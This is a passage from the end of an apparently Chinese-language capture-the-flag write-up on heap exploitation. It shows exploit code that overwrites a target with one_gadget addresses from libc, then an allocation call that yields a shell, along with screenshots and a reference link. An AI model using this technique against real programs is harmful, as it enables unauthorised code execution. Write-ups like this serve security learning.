 ```plain
og=libc_base+ogs[1]
payload = p64(og)*8+p64(og)
edit(9,payload)
```

然后编辑一下直接传入onegadget

[![](assets/1701612337-a6891633e3866438da66dec8b7d5fa40.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230708173143-402db314-1d72-1.png)

```plain
add(0x20)
```

成功getshell

[![](assets/1701612337-2c083807d463a05f06731c116d36dd36.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230708173158-48ed9d84-1d72-1.png)

## 参考文章

[https://www.cnblogs.com/Rookle/p/13140339.html](https://www.cnblogs.com/Rookle/p/13140339.html)
